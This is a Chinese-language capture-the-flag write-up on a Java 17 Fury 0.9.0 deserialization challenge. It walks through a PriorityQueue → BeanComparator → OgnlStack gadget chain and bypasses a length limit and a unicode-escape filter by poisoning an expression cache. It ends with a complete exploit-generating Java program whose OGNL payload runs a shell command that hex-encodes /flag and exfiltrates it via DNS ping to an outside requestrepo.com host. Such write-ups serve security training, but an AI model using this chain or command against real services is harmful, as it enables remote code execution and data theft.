






题目源码，一个简单的java17版本下的fury反序列化，依赖只有fury0.9.0和feilong4.5.1

```java
package com.app;

import com.feilong.core.net.ParamUtil;
import com.feilong.io.InputStreamUtil;
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpServer;
import org.apache.fury.Fury;
import org.apache.fury.config.Language;

import java.io.InputStream;
import java.io.OutputStream;
import java.net.InetSocketAddress;
import java.nio.charset.StandardCharsets;
import java.util.Base64;

public class Server {
    public static void main(String[] args) throws Exception {
        Fury fury = Fury.builder().withLanguage(Language.JAVA).requireClassRegistration(false).withRefTracking(true).build();
        HttpServer httpServer = HttpServer.create(new InetSocketAddress(8888), 0);
        httpServer.createContext("/", exchange -> {
            String result = handle(exchange, fury);
            byte[] bytes = result.getBytes(StandardCharsets.UTF_8);
            exchange.getResponseHeaders().set("Content-Type", "text/plain; charset=UTF-8");
            exchange.sendResponseHeaders(200, bytes.length);
            try (OutputStream os = exchange.getResponseBody()) {
                os.write(bytes);
            }
        });
        httpServer.start();
        System.out.println("server started: 0.0.0.0:8888");
    }

    private static String handle(HttpExchange exchange, Fury fury) {
        try (InputStream in = exchange.getRequestBody()) {
            String body = InputStreamUtil.toString(in, StandardCharsets.UTF_8.name());
            String data = ParamUtil.toSingleValueMap(body, null).get("data");
            if (data == null || data.isEmpty() || data.length() > 666) return "no";
            byte[] payload = Base64.getDecoder().decode(data);
            if (hasUnicodeEscape(payload)) return "no";
            fury.deserialize(payload);
            return "ok";
        } catch (Exception e) {
            return "no";
        }
    }

    private static boolean hasUnicodeEscape(byte[] bytes) {
        for (int i = 0; i < bytes.length - 1; i++) {
            if (bytes[i] == '\\' && (bytes[i + 1] == 'u' || bytes[i + 1] == 'U')) {
                return true;
            }
        }
        return false;
    }
}
```

feilong自带了cc和cb的依赖，这里我ban了cc链，cb链的TemplatesImpl fury里面自带的黑名单就ban了



然后限制了长度为666，说明链子是比较短的。自己去feilong找sink点可以看到有个ognl库



OgnlStack#getValue可以进行ognl表达式求值来rce，这里ognl是高版本，有黑名单的，从这篇文章里面直接复制个payload就好了[OGNL表达式注入高版本绕过分析](https://xz.aliyun.com/news/18195)



getter可以直接用cb链前半段，这里要知道PropertyUtils获取属性名是可以用value(yyy)这种格式的，刚好我们的OgnlStack#getValue的参数也是字符串



获取key的时候会截取(和第一个)之间的内容，而我们的ognl表达式里面也有)，所以不处理的话会报错。这里可以用unicode来绕过，不过被我ban了（



求值前会先解析表达式，有一个expressionsMap类似于一个缓存，如果里面有表达式对应的ast对象就直接取出来用，所以我们可以修改expressionsMap让yyy对应一个恶意表达式的对象来绕过()的截取导致的语法报错



最后的payload

```java
import com.feilong.lib.beanutils.BeanComparator;
import com.feilong.lib.excel.ognl.OgnlStack;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.*;
import org.apache.fury.Fury;
import org.apache.fury.config.Language;
import sun.misc.Unsafe;

public class test {
    public static void main(String[] args) throws Exception {
        Class unsafeClass = Class.forName("sun.misc.Unsafe");
        Field field = unsafeClass.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);
        Module baseModule = Object.class.getModule();
        Class currentClass = test.class;
        long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.getAndSetObject(currentClass, addr, baseModule);
        // OgnlStack#getValue sink feilong
        OgnlStack ognlStack = new OgnlStack(null);
        String expression = "@jdk.jshell.JShell@create().eval('Runtime.getRuntime().exec(new String[]{\"sh\",\"-c\",\"ping $(xxd -p -c 256 /flag|cut -c1-50).2efg82vj.requestrepo.com\"});')";
        Method getExpression = ognlStack.getClass().getDeclaredMethod("getExpression", String.class);
        getExpression.setAccessible(true);
        Object expCache = getExpression.invoke(ognlStack, expression);
        Field expressionsMapField = ognlStack.getClass().getDeclaredField("expressionsMap");
        expressionsMapField.setAccessible(true);
        HashMap cacheMap = new HashMap<>();
        cacheMap.put("yyy",expCache);
        expressionsMapField.set(ognlStack, cacheMap);
        // BeanComparator#compare -> getter feilong
        BeanComparator comparator = new BeanComparator();
        setFieldValue(comparator,"property","value(yyy)");
        // PriorityQueue#readObject -> compare java原生
        PriorityQueue queue = new PriorityQueue();
        setFieldValue(queue,"comparator",comparator);
        setFieldValue(queue,"queue",new Object[]{ognlStack,ognlStack}); // beanComparator.compare(o,o)
        setFieldValue(queue,"size",2);
        Fury fury = Fury.builder().withLanguage(Language.JAVA).requireClassRegistration(false).withRefTracking(true).build();
        byte[] serialize = fury.serialize(queue);
        String data = Base64.getEncoder().encodeToString(serialize);
        System.out.println(data);
        System.out.println(data.length());
//        Object deserialize = fury.deserialize(Base64.getDecoder().decode(data));
    }
    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);
            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}
```

